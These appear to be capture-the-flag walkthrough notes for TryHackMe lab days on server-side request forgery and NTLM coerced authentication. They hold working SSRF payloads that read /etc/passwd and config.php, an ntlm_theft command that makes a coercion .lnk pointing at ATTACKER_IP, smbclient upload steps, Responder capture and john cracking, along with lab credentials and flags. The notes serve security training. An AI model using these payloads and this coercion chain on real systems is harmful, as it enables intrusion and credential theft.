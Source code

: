 ### _Server Side Request Forgery (SSRF)_

- SSRF, or server-side request forgery, is a security vulnerability that occurs when an attacker tricks a web application into making unauthorised requests to internal or external resources on the server's behalf.
- There's 3 types of SSRF
-- Basic SSRF
-- Blind SSRF
-- Semi-Blind SSRF
- head over to the api page and identify the URL to perform SSRF vulnerability on 
> `http://10.10.73.147/getClientData.php?url=http://IP_OF_CLIENT/NAME_OF_FILE_YOU_WANT_TO_ACCESS`

- if we want to access files from local system then do this :
> `http://10.10.73.147/getClientData.php?url=file:////etc/passwd`

- first we access login credentials through `/var/www/html/config.php` by doing 
> `http://10.10.73.147/getClientData.php?url=file:////var/www/html/config.php`
- we get the credentials to be `mcgreedy:mcgreedy!@#$%`
- now we can access the C2 panel and first flag we get is `THM{EXPLOITED_31001}`
- Now from the panel, manually remove `McSkidy PC` and prevent his data from being exfiltrated and after removing it we get another flag `THM{AGENT_REMOVED_1001}`
---
## Day 23 :

### _Coerced Authentication_

- we will look at NTLM authentication and how threat actors can perform authentication coercion attacks.
- if we can’t just listen to and poison requests by using `Responder`, we just have to create our own! This brings a new attack vector into the spotlight: _coercion_
- we can create a sneaky little file to coerce those users to authenticate to our server. We can do this by creating a file that, when viewed within the file browser, will coerce authentication automatically.
- We do this by using a tool called [ntlm theft](https://github.com/Greenwolf/ntlm_theft) , go to the `ntlm_theft` directory and run this command
> `python3 ntlm_theft.py -g lnk -s ATTACKER_IP -f stealthy` - this will create a new directory called `stealthy` and store a `stealthy.lnk` file 
- We know that McGreedy is a little snoopy. So let’s add the `lnk` file to our network share by putting file using `smbclient` and hope he walks right into our trap.
```
smbclient //10.10.153.234/ElfShare/ -U guest%
put stealthy.lnk
dir
get greedykeys.txt
```
- The first command will connect you to the share as a guest. The second command will upload your file, and the third command will list all files for verification and 4th command is our wordlist to crack the NTLM hash.
- Next, we need to run Responder to listen for incoming authentication attempts
> `responder -I ens5` - for attackbox it is `ens5` but for own machine it varies and we can get the `tun` adaptor by doing `ifconfig` 
- now when mcgreedy does go thru this file and authentication coercion happens, we get his `NTLMv2-SSP hash` , now store it in `hash.txt` and crack it using `john`
> `john --wordlist=greedykeys.txt hash.txt` - we get cracked password of `Administrator` to be `GreedyGrabber1@` 
